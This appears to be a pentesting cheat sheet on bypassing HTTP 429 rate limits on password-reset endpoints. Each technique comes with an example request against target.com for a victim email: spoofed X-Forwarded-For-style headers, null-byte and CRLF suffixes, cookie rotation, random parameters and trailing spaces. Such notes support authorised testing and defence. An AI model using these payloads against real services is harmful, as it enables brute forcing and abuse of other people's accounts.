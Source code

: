 # Bypass 429 (Too Many Requests)
 
1. Try add some custom header
```
X-Forwarded-For : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1
X-Host : 127.0.0.1
```
For example:
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
X-Forwarded-For : 127.0.0.1
...

email=victim@gmail.com
```

2. Adding Null Byte ( %00 ) or CRLF ( %09, %0d, %0a ) at the end of the Email can bypass rate limit.
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com%00
```

3. Try changing user-agents, cookies and IP address
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: xxxxxxxxxx
...

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: aaaaaaaaaaaaa
...

email=victim@gmail.com
```

4. Add a random parameter on the last endpoint
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php?random HTTP/1.1
Host: target.com
...

email=victim@gmail.com
```

5. Add space after the parameter value
```
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com"}
```
Try this to bypass
```
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com "}
```

## References
* [Huzaifa Tahir](https://huzaifa-tahir.medium.com/methods-to-bypass-rate-limit-5185e6c67ecd)
* [Gupta Bless](https://gupta-bless.medium.com/rate-limiting-and-its-bypassing-5146743b16be)
